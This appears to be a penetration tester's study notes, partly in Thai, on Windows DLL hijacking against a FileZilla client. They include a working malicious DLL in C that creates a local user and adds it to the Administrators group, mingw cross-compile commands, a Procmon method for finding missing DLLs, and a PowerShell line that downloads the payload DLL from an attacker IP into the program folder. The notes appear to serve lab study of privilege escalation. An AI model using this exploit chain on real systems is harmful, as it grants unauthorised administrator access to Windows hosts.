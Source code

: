 ```
```

![[Powerup-1.png]]![[PowerUp-2.png]]


[[WinDLLHijacking]]

```c
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave3 password123! /add");
  	    i = system ("net localgroup administrators dave3 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

```
# เตรียม DLL สำหรับ Hijack 
sudo apt update
sudo apt install g++-mingw-w64 

x86_64-w64-mingw32-gcc TextShaping.cpp --shared -o TextShaping.dll

```

ภายใต้ Procmon เราจะ Filter Service ที่สนใจ ในที่นี้เป็น Filezilla.exe และทำการตรวจหา DLL ที่ขึ้นผลลัพธ์เป็น NAME NOT FOUND 
![[windllinjectwithprocmon.png]]

ช่องโหว่ของ FileZilla version ที่ใช้ มีช่องโหว่บน DLL ดังตัวอย่าง

```
C:\FileZilla\FileZilla FTP Client\TextShaping.dll 
```

```
iwr -uri http://192.168.45.241/dllhij.dll -OutFile 'C:\FileZilla\FileZilla FTP Client\TextShaping.dll'
```
